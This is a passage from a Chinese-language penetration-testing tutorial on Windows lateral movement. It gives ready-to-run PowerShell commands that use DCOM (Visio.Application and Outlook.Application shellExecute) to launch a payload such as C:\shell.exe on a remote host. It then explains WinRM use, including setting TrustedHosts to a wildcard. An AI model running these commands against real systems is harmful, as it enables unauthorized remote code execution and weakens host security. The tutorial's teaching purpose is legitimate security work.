 ```powershell
# 通过PowerShell与DCOM进行远程交互，创建Visio.Application对象的实例:
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","10.10.10.137"))

# 然后执行如下命令，我们就可以调用该对象的"shellExecute"方法在远程主机上启动进程:
$com.[0].Document.Application.shellExecute("calc.exe")

# 完整的命令:
[activator]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","10.10.10.137")).[0].Document.Application.shellExecute("C:\shell.exe")
```

### Outlook.Application

需要目标主机中安装有`Outlook`，通过`Outlook`创建`Shell.Application`对象来实现命令行执行。

```powershell
# 通过PowerShell与DCOM进行远程交互，创建Visio.Application对象的实例:
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","10.10.10.137"))

# 然后执行如下命令，通过Outlook创建Shell.Application对象并执行命令:
$com.createObject("Shell.Application").shellExecute("C:\shell.exe")

# 完整的命令:
[activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","10.10.10.137")).createObject("Shell.Application").shellExecute("C:\shell.exe")
```

# WinRM的利用

`WinRM`是通过执行`WS-Management`协议（用于远程软件和硬件管理的`Web`服务协议）来实现远程管理的，允许处于一个共同网络内的`Windows`计算机彼此之间互相访问和交换信息，对应的端口是`5985`。在一台计算机启用`WinRM`服务后，防火墙会自动放行其相关通信端口，在另一台计算机便能通过`WinRM`对其进行远程管理了。

注意，只有在`Windows Server 2008`以上版本的服务器中，`WinRM`服务才会自动启动。攻击者在利用`WinRM`进行横向移动时，需要拥有远程主机的管理员凭据信息。

## 通过WinRM执行远程命令

`Windows`远程管理提供了下面两个命令行工具：

1. `Winrs`，允许远程执行命令的命令行工具，利用了`WS-Management`协议；
2. `Winrm`（`Winrm.cmd`)，内置系统管理命令行工具，允许管理员配置本机的`WinRM`服务。

在默认情况下，无法通过`WinRM`连接到目标系统。在首次使用上述两个命令行工具进行`WinRM`连接时，可能会出现提示以下错误：“`Winrs error`：`WinRM`客户端无法处理该请求”。

在下列条件下，可以将默认身份验证与`IP`地址结合使用：

1. 传输为`HTTPS`或目标位于`TrustedHosts`列表中，并且提供显式凭据；
2. 使用`Winrm.cmd`配置`TrustedHosts`。

执行以下命令，可以手动将目标的`IP`地址添加到`TrustedHosts`中：

```powershell
winrm set winrm/config/client @{TrustedHosts="10.10.10.137"}

# 通过powershell，将TrustedHosts设置为*，从而信任所有主机
set-Item WSMan:localhost\client\trustedhosts -value *
```
